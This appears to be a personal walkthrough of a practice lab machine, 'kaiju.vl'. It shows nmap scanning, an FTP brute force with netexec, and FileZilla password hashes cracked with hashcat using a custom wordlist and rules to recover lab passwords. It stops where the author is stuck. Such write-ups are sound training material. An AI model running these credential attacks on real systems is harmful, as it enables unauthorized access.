










As usual I will start by checking traces of open ports on the most common UDP servicec wihtou success so far.

```bash
└─$ nmap -F -sU 10.13.38.41                                            
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-17 12:00 +0100
Nmap scan report for 10.13.38.41
Host is up (0.025s latency).
All 100 scanned ports on 10.13.38.41 are in ignored states.
Not shown: 100 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 4.29 seconds

```

But checking the TCP counterparts tells me this will be a non DC server:

```bash
PORT     STATE SERVICE       REASON          VERSION
21/tcp   open  ftp           syn-ack ttl 127 FileZilla ftpd 1.8.0
|_ssl-date: TLS randomness does not represent time
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla.
| tls-alpn: 
|_  ftp
| ssl-cert: Subject: commonName=filezilla-server self signed certificate
| Issuer: commonName=filezilla-server self signed certificate
| Public Key type: ec
| Public Key bits: 256
| Signature Algorithm: ecdsa-with-SHA256
| Not valid before: 2023-12-17T14:33:49
| Not valid after:  2024-12-17T14:38:49
| MD5:     96eb 4628 bac7 7bd6 ad46 b498 0020 02fd
| SHA-1:   ad85 50b5 089e 34a7 8bb9 d8ef 3a67 668c c3dc 5502
| SHA-256: 3ec7 e7ef c685 c97e 3fe5 a13b 4f2d 4e93 2be2 f527 037f e88e 60e2 ae4a 1636 7709
| -----BEGIN CERTIFICATE-----
| MIIBhzCCAS6gAwIBAgIUsSSvZaTc2Pd3JBJASMNt7P/WXk0wCgYIKoZIzj0EAwIw
| MzExMC8GA1UEAxMoZmlsZXppbGxhLXNlcnZlciBzZWxmIHNpZ25lZCBjZXJ0aWZp
| Y2F0ZTAeFw0yMzEyMTcxNDMzNDlaFw0yNDEyMTcxNDM4NDlaMDMxMTAvBgNVBAMT
| KGZpbGV6aWxsYS1zZXJ2ZXIgc2VsZiBzaWduZWQgY2VydGlmaWNhdGUwWTATBgcq
| hkjOPQIBBggqhkjOPQMBBwNCAASAKf3+dRIJPcEobvJZ6c2QrE76a38eHGzMnrJw
| yOIiOGJVlFE6zTHl5GsYwm+L55u+DjjWD21g0vcbIO+TmRhZoyAwHjAOBgNVHQ8B
| Af8EBAMCBaAwDAYDVR0TAQH/BAIwADAKBggqhkjOPQQDAgNHADBEAiBrj9KDMuo8
| iu7Vt3c0yi251b/USYfZcf9cQ3tMKtiovwIgXZynhXp9KP4AEOj+h5vG48OHIVLn
| aILopOyJYCrfo5c=
|_-----END CERTIFICATE-----
22/tcp   open  ssh           syn-ack ttl 127 OpenSSH for_Windows_9.5 (protocol 2.0)
445/tcp  open  microsoft-ds? syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| ssl-cert: Subject: commonName=BERSRV200.kaiju.vl
| Issuer: commonName=BERSRV200.kaiju.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-16T03:10:40
| Not valid after:  2026-09-15T03:10:40
| MD5:     7f5a 315b 88a9 9bac c419 9205 61b2 3207
| SHA-1:   135a 78b6 cf3d 428a 3fd2 7fee 04b2 adbe c174 e094
| SHA-256: daa8 951d 4986 441b 6999 7145 31ad eb4e ab43 7989 7827 2aca 4d47 6393 8bf8 0ee0
| -----BEGIN CERTIFICATE-----
| MIIC6DCCAdCgAwIBAgIQOlzW4y21tItGCqvh2Lq3BzANBgkqhkiG9w0BAQsFADAd
| MRswGQYDVQQDExJCRVJTUlYyMDAua2FpanUudmwwHhcNMjYwMzE2MDMxMDQwWhcN
| MjYwOTE1MDMxMDQwWjAdMRswGQYDVQQDExJCRVJTUlYyMDAua2FpanUudmwwggEi
| MA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQD3QNxSgD/+MUQ/zzRSyJtrBPk1
| tu0OWBYxrfs0TSHpUF5PVqWa/QPYB4wixnlUulwcE6CtVXRg66uq2kFhQcqPO/ml
| cL6VuVIlYBVHXwDU+YRHQZXx3+beE7BeR9byV/sLiKWSYu76PltCfX8q+S4AmP7+
| Y/twG5mGLIjG8HDVAch1G8SHAXFiOzeZwuJQQYizByco5aUtE9eTU7SR0cwKAPmV
| ZWEg7rK7QMK523kOkAKe9X75rfAyG+zUiNHU/oDlyP6GKhLquL8+NX5mmQu6yNbc
| /DkfMTNs8W79yNjvfn3/qrC1AvGV7YrNlh0BTj5xLMlGhjMIiVx23Jtise7dAgMB
| AAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG
| 9w0BAQsFAAOCAQEATcLADkpmDa2gNRkO3/hoza66L61yWiX6ooQwPxzsOoVcdWYB
| Gbz+uMJ4+ty/hgylqSybJ85BvIiVYc/DXFLZUXpJyoO6uXzOD795SwAcdwlaQnhx
| 0O8Gm75iYqhLgcs5QQeXXTcAoAugi2+BqM3RlsLHj2NvhJzM627atum/PMPfbZPk
| HZL5aleyhJuGoKILD06ohIxULdaNagHFyntV3BbD+5YHqK9W+xK9VqG8cGFi5xlD
| bXqSeHB5vcPDvuFsFgUaSRM3QEfytxMXzqqo+kSWlK0DE+wWZcuj7Du9ud+WPGir
| ehQR9CrNbGxD7cLsn1E5y8RAX2bo8IPcMTY00g==
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: KAIJU
|   NetBIOS_Domain_Name: KAIJU
|   NetBIOS_Computer_Name: BERSRV200
|   DNS_Domain_Name: kaiju.vl
|   DNS_Computer_Name: BERSRV200.kaiju.vl
|   DNS_Tree_Name: kaiju.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-17T11:04:35+00:00
|_ssl-date: 2026-03-17T11:05:14+00:00; -1s from scanner time.
5357/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/17%OT=21%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=69B9356C%P=x86_64-pc-linux-gnu)
SEQ(SP=103%GCD=1%ISR=10B%TI=I%II=I%SS=S%TS=A)
SEQ(SP=FA%GCD=1%ISR=10C%TI=I%II=I%SS=S%TS=A)
OPS(O1=M552NW8ST11%O2=M552NW8ST11%O3=M552NW8NNT11%O4=M552NW8ST11%O5=M552NW8ST11%O6=M552ST11)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M552NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.330 days (since Tue Mar 17 04:10:25 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=250 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 53920/tcp): CLEAN (Timeout)
|   Check 2 (port 35391/tcp): CLEAN (Timeout)
|   Check 3 (port 4587/udp): CLEAN (Timeout)
|   Check 4 (port 14321/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-time: 
|   date: 2026-03-17T11:04:37
|_  start_date: N/A

```

# FTP

Now I had to ask for a tips as I suspect this is the foothold since the anonymous didn't work I will try to bruteforce and I will use this list from the **SecLists:** https://git.selfmade.ninja/zer0sec/SecLists/-/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt

And apparently I have a user that do not require any password:

```bash
└─$ netexec ftp BERSRV200 -u /usr/share/seclists/Usernames/top-usernames-shortlist.txt -p /usr/share/seclists/Passwords/Default-Credentials/default-passwords.txt 

FTP         10.13.38.41     21     BERSRV200        [-] root:<BLANK> (Response:530 Login incorrect.)
FTP         10.13.38.41     21     BERSRV200        [-] admin:<BLANK> (Response:530 Login incorrect.)
FTP         10.13.38.41     21     BERSRV200        [-] test:<BLANK> (Response:530 Login incorrect.)
FTP         10.13.38.41     21     BERSRV200        [-] guest:<BLANK> (Response:530 Login incorrect.)
FTP         10.13.38.41     21     BERSRV200        [-] info:<BLANK> (Response:530 Login incorrect.)
FTP         10.13.38.41     21     BERSRV200        [-] adm:<BLANK> (Response:530 Login incorrect.)
FTP         10.13.38.41     21     BERSRV200        [-] mysql:<BLANK> (Response:530 Login incorrect.)
FTP         10.13.38.41     21     BERSRV200        [-] user:<BLANK> (Response:530 Login incorrect.)
FTP         10.13.38.41     21     BERSRV200        [-] administrator:<BLANK> (Response:530 Login incorrect.)
FTP         10.13.38.41     21     BERSRV200        [-] oracle:<BLANK> (Response:530 Login incorrect.)
FTP         10.13.38.41     21     BERSRV200        [+] ftp:<BLANK>
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Kaiju]

```

Now this FTP has some Keepass stuff?  


And some configs?



Now I was able to identify that the Administrative password but also the credentials from the Filezilla config.

```bash
┌──(user㉿kali-almi)-[~/Downloads/Kaiju]
└─$ cat ftp.txt 
ftp:ftp
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Kaiju]
└─$ cat local.txt 
administrator:[Moved to KeePass]                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Kaiju]
└─$ cat users.xml 
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<filezilla xmlns:fz="https://filezilla-project.org" xmlns="https://filezilla-project.org" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" fz:product_flavour="standard" fz:product_version="1.8.0">
    <default_impersonator index="0" enabled="false">
        <name></name>
        <password></password>
    </default_impersonator>
    <user name="&lt;system user>" enabled="false">
        <mount_point tvfs_path="/" access="1" native_path="" new_native_path="%&lt;home>" recursive="2" flags="0" />
        <rate_limits inbound="unlimited" outbound="unlimited" session_inbound="unlimited" session_outbound="unlimited" />
        <allowed_ips></allowed_ips>
        <disallowed_ips></disallowed_ips>
        <session_open_limits files="unlimited" directories="unlimited" />
        <session_count_limit>unlimited</session_count_limit>
        <description>This user can impersonate any system user.</description>
        <impersonation login_only="false" />
        <methods>1</methods>
    </user>
    <user name="backup" enabled="true">
        <mount_point tvfs_path="/" access="1" native_path="" new_native_path="E:\Private" recursive="2" flags="0" />
        <rate_limits inbound="unlimited" outbound="unlimited" session_inbound="unlimited" session_outbound="unlimited" />
        <allowed_ips></allowed_ips>
        <disallowed_ips></disallowed_ips>
        <session_open_limits files="unlimited" directories="unlimited" />
        <session_count_limit>unlimited</session_count_limit>
        <description></description>
        <password index="1">
            <hash>ZqRNhkBO8d4VYJb0YmF7cJgjECAH43MHdNABkHYjNFU</hash>
            <salt>aec9Yt49edyEvXkZUinmS52UrwNoNNgoM+6rK3fuFFw</salt>
            <iterations>100000</iterations>
        </password>
        <methods>1</methods>
    </user>
    <user name="ftp" enabled="true">
        <mount_point tvfs_path="/" access="1" native_path="" new_native_path="E:\Public" recursive="2" flags="0" />
        <rate_limits inbound="unlimited" outbound="unlimited" session_inbound="unlimited" session_outbound="unlimited" />
        <allowed_ips></allowed_ips>
        <disallowed_ips></disallowed_ips>
        <session_open_limits files="unlimited" directories="unlimited" />
        <session_count_limit>unlimited</session_count_limit>
        <description></description>
        <password index="0" />
        <methods>0</methods>
    </user>
</filezilla>

```

Now the Keepass is requiring the password:



But seems like the password isnt in rockyou(at least so far)  


This might mean I need to export the passwords from Filezilla and maybe hope for some passwrod reuse? I will use this tool to extract the correct password hash that Hashcat can parse: https://raw.githubusercontent.com/nccgroup/hashcrack/refs/heads/master/scripts/filezilla2hashcat.py

But everything failed and here asking again for a nudge the hash is taken directly without any calculation:

```bash
sha256:100000:aec9Yt49edyEvXkZUinmS52UrwNoNNgoM+6rK3fuFFw=:ZqRNhkBO8d4VYJb0YmF7cJgjECAH43MHdNABkHYjNFU=
```

```bash
* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => 


Session..........: hashcat
Status...........: Running
Hash.Mode........: 10900 (PBKDF2-HMAC-SHA256)
Hash.Target......: sha256:100000:aec9Yt49edyEvXkZUinmS52UrwNoNNgoM+6rK...YjNFU=
Time.Started.....: Tue Mar 17 13:06:47 2026 (1 min, 4 secs)
Time.Estimated...: Tue Mar 17 13:44:47 2026 (36 mins, 56 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (Wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:     6293 H/s (12.66ms) @ Accel:8 Loops:250 Thr:256 Vec:1
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 393216/14344385 (2.74%)
Rejected.........: 0/393216 (0.00%)
Restore.Point....: 393216/14344385 (2.74%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:13000-13250
Candidate.Engine.: Device Generator
Candidates.#01...: remmer -> colts8
Hardware.Mon.#01.: Temp: 68c Util: 98% Core:1590MHz Mem:5000MHz Bus:8

[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => 

```

Now the issue is that the rockyou is still not able to crack it so again here I had to ask for a nudge and the key here is to create a simple custom wordlist. Like the following:

```bash
user@user-host:~/Downloads$ cat kaiju.txt 
kaiju
backup
filezilla
backupfilezilla
filezillabackup


```

And by applying some mutation ruleset I have the password:

```bash
┌──(user㉿kali-almi)-[~/Downloads/Kaiju]
└─$ hashcat -a 0 -m 10900 'sha256:100000:aec9Yt49edyEvXkZUinmS52UrwNoNNgoM+6rK3fuFFw=:ZqRNhkBO8d4VYJb0YmF7cJgjECAH43MHdNABkHYjNFU=' kaiju.txt -r /usr/share/hashcat/rules/d3ad0ne.rule --show
sha256:100000:aec9Yt49edyEvXkZUinmS52UrwNoNNgoM+6rK3fuFFw=:ZqRNhkBO8d4VYJb0YmF7cJgjECAH43MHdNABkHYjNFU=:backup123

```

# Foothold into the System

With this new Backup user I am now able to login via SSH only (except the FTP):



I can see that the AD standard is NAME.SURNAME  


Now I was looking around and the C disk is totally void but I remember checking the samba share that there is another E:



And indeed I was right  


From the logs I can see that the settings are saved within the AppData folder of another local user?



But from the installations log file I can see the Admin password hash?

```bash
eate shortcut: C:\Users\Public\Desktop\Stop FileZilla Server.lnk
create service filezilla-server: E:\Program Files\FileZilla Server\filezilla-server.exe
Service filezilla-server successfully created.
CheckConfigVersion: got [ok
]
Delete file: C:\Users\ADMINI~1\AppData\Local\Temp\1\nsxEDF4.tmp
Crypt output: [--admin.password@index=1 --admin.password.hash=mSbrgj1R6oqMMSk4Qk1TuYTchS5r8Yk3Y5vsBgf2tF8 --admin.password.salt=AdRNx7rAs1CEM23S5Zp7NyAQYHcuo2LuevU3pAXKB18 --admin.password.iterations=100000]
=====================================
Take note of the FileZilla Server Administration Interface TLS fingerprints:
SHA256 certificate fingerprint: 72:30:ea:81:80:0f:33:99:cc:70:52:1e:7c:bc:6f:ba:2c:4d:4b:0d:6f:bc:fe:61:7e:e6:c1:06:38:d5:3d:9d

=====================================

backup@BERSRV200 E:\Program Files\FileZilla Server>


```

And again now it is possible to get the administrative creds  on the machine?

```bash
user@user-host:~/Downloads$ hashcat -a 0 -m 10900 'sha256:100000:AdRNx7rAs1CEM23S5Zp7NyAQYHcuo2LuevU3pAXKB18=:mSbrgj1R6oqMMSk4Qk1TuYTchS5r8Yk3Y5vsBgf2tF8=' kaiju.txt -r hashcat/rules/best66.rule --show
sha256:100000:AdRNx7rAs1CEM23S5Zp7NyAQYHcuo2LuevU3pAXKB18=:mSbrgj1R6oqMMSk4Qk1TuYTchS5r8Yk3Y5vsBgf2tF8=:kaiju123
user@user-host:~/Downloads$ 

```

# Stuck

Now here I was stuck and someone tipsed me to look at this:  


Basically the idea is to decrypt the password directly from the memory and I recall this is old crap from years ago and honestly I don't think it is woth pursuiting.